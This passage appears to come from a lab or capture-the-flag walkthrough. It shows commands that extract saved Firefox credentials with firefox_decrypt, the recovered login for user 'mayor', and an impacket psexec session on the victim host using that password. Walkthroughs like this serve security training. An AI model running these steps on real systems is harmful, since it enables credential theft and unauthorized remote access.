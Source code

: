**Kali**&#x20;

```
git clone https://github.com/unode/firefox_decrypt.git
python3.9 firefox_decrypt.py ./
```

<figure><img src="../../.gitbook/assets/image (64) (1).png" alt=""><figcaption></figcaption></figure>

**Credentials Found**

```
Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```

**Kali**

```
python3.9 /opt/impacket/build/scripts-3.9/psexec.py mayor@$VICTIM
Password: 8CL7O1N78MdrCIsV
```

<figure><img src="../../.gitbook/assets/image (69) (1).png" alt=""><figcaption></figcaption></figure>

